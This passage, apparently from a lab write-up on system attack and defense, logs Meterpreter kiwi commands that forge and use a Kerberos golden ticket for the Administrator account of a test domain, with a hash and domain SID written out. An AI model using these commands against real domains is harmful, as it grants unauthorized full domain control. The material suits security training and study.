 
Loaded kiwi with cmd: load kiwi
Created a golden ticket: golden_ticket_create -u 'Administrator' -d 'crimsonia.net' -k '23197c205f70a4137b2d4aadb72d8ee3' -s 'S-1-5-21-522893000-456512031-3203732078' -t 'C:\Onyeka\kelvin'
Used Kerberos on ticket: kerberos_ticket_use 'C:\Onyeka\kelvin'
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/8d49a282-e21a-4c51-81cc-fc6f7fad7f6e)
 

